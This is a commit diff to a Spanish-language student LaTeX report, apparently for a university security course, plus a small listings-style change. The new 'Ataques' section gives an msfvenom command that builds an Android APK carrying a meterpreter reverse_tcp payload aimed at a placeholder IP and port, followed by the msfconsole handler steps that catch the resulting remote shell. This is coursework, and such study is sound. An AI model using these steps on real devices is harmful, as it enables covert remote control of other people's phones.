

Before and after one commit to LucianoFromTrelew/ARyS2018, a LaTeX document (tp1/informe/informe.tex, which reads tp1/informe/listings_settings.tex): part of page 7 of 7 before the commit and two parts of pages 7 and 8 of 9 after it, the two joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
Agregar avances al TP1

```diff
--- a/tp1.1/informe/informe.tex
+++ b/tp1/informe/informe.tex
@@ -132,10 +132,29 @@ Principalmente el uso de contraseñas seguras (compuestas tanto por caracteres m
 
 Una acción de concientización interesante podría ser la demostración de qué tan fácil puede llegar a ser descubrir una contraseña habitual, mediante el uso de diccionarios y/o fuerza bruta.
 
+\section{Ataques}
 
+\emph{Explique el procedimiento para la ejecución del componente meterpreter en un dispositivo/computadora remoto/a a través de msfvenom}
 
+Para poder ejecutar una aplicación con un \emph{shell reverso \footnote{Se establece una conexión entre dos computadoras, la que inicia la conexión dirige una terminal interactiva hacía el destino \autocite{ReverseShell}}} en un dispositivo Android, primero se debe crear un archivo \emph{.apk} (archivo instalable en un Android) que contenga el código necesario para establecer la conexión con otra computadora. Para ello se usa el programa \texttt{msfvenom} de la siguiente manera:
 
+\begin{lstlisting}
+    msfvenom -p android/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PUERTO_DE_ESCUCHA> R> ~/app.apk
+\end{lstlisting}
 
+\begin{itemize}
+    \item \texttt{-p android/meterpreter/reverse\_tcp}: con este parámetro le indicamos a \texttt{msfvenom} que el \emph{payload} (código adicional) que queremos inyectar en la aplicación \emph{app.apk} realice una conexión TCP con la IP <IP> al puerto <PUERTO\_DE\_ESCUCHA>
+    \item \texttt{LHOST}: dirección IP a la cual conectarse
+    \item \texttt{LPORT}: puerto al cual establecer la conexión
+\end{itemize}
 
+Una vez instalada la aplicación en el dispositivo Android al cual se desea atacar, se debe ejecutar la consola de \emph{Metasploit} (con el comando \texttt{msfconsole}), e ingresar lo siguiente:
 
+\begin{itemize}
+    \item \texttt{use exploit/multi/handler}
+    \item \texttt{set payload android/meterpreter/reverse\_tcp}
+    \item \texttt{set LHOST <IP>}
+    \item \texttt{set LPORT <PUERTO\_DE\_ESCUCHA>}
+    \item \texttt{exploit}
+\end{itemize}
 
@@ -142,3 +165,4 @@ Una acción de concientización interesante podría ser la demostración de qué
+\end{figure}
 
 
 
--- a/tp1.1/informe/listings_settings.tex
+++ b/tp1/informe/listings_settings.tex
@@ -2,8 +2,8 @@
 \definecolor{bg-light-gray}{HTML}{E9E9E9}
 \definecolor{bg}{HTML}{D0B698}
 
-\lstdefinestyle{cstyle}{
-    language=C,
+\lstdefinestyle{bashstyle}{
+    language=Bash,
     backgroundcolor=\color{bg},
     basicstyle=\ttfamily,
   	keywordstyle=\bfseries\color{white},
```
Also changed, not shown: tp1/informe/references.bib (added, +7 -0 lines), tp1.1/informe/references.bib (deleted), tp1/informe/Makefile (renamed from tp1.1/informe/Makefile), tp1/informe/images/logoUnpsjb.png (renamed from tp1.1/informe/images/logoUnpsjb.png), tp1/informe/images/meterpreter-android.png (added), tp1/informe/informe.pdf (added), tp1/informe/project_settings.tex (renamed from tp1.1/informe/project_settings.tex), tp1/informe/titlepage.tex (renamed from tp1.1/informe/titlepage.tex), tp1/informe/informe.tex (6 more changed lines).
